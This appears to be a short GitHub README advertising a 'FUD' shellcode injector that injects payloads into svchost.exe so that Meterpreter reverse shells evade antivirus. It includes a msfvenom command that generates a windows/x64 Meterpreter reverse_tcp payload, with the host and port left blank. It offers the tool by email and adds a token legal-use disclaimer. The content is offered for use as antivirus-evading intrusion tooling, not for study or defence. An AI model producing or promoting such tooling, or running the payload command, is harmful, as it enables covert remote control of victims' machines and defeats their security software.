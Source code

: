 # Shellcode-Injector
Injects Shellcode in Process (even metersploit payloads fud)


FUD x64 Shellcode injector which injects the shellcode to svchost.exe and makes even a meterpreter fud.

Example:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=... LPORT=... -f python 

You put the Shellcode in the script and compile it to a exe, if this script gets executed it bypasses every antivirus and gives you a normal meterpreter shell.

Get it: Blackclone24@proton.me 

Only for Legal Purposes!!!

I am not responsible for any malicious actions...


